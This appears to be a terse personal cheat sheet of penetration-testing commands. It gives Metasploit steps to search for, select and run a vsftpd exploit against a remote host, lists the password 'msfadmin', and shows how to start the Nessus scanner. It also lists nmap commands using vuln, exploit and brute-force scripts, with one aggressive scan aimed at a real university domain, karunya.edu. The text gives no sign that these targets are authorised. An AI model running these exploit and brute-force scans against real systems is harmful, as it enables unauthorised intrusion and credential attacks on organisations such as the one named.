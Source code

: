 # metasploit

Msfconsole

Search vsftp
Use 0
Show options
Set rhosts \\ip
Show options 
Run

Metasploit pass : msfadmin


Systemctl start nessusd.service
https:// localhost:8834


Nmap :

nmap -A domain name(karunya.edu)
nmap —script vuln -Pn ip
nmap —script exploit -Pn ip
nmap —script brute -Pn ip
